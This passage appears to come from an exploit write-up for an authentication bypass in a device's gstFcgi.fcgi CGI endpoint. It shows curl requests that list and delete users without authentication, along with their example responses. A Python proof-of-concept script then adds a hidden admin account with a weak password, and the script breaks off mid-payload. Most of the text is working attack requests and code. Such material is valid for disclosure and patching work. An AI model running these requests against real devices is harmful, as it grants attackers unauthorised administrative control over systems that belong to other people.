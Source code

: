 ```json
{
  "ADD_USER": "OK"
}
```

### 3. **Confirm the New User Exists**

Attackers can confirm that the new user exists using:

```bash
curl '{target}/cgi-bin/gstFcgi.fcgi' -X POST --data-raw '{"LIST":"USERS"}'
```
Example Response:

```json
{
  "USERS": [
    {"USER":"admin", "SETUP":1, "ADMIN":1, "TUNER1":1, "TUNER2":1, "AUDIO":1},
    {"USER":"tester", "SETUP":1, "ADMIN":1, "TUNER1":1, "TUNER2":1, "AUDIO":1}
  ]
}
```
### 4. **Delete an Existing User**

Attackers can delete the new user without authentication:

```bash
curl '{target}/cgi-bin/gstFcgi.fcgi' -X POST --data-raw '{
  "USER":"admin",
  "DEL_USER":"tester"
}'
```

Example Response:

```json
{
  "DELETED": "tester"
}
```
---

## **Automated Exploit (Python PoC Script)**

The following Python script automates the attack process:

```python
import requests
import json

target = "http://<target-ip>/cgi-bin/gstFcgi.fcgi"

# List Users
def list_users():
    payload = {"LIST": "USERS"}
    response = requests.post(target, json=payload)
    print(response.json())

# Add New Admin User
def add_user():
    payload = {
        "USER": "admin",
        "ADD_USER": {
            "USER": "tester",
            "PASS": "tester",
            "SETUP": 1,
            "ADMIN": 1,
```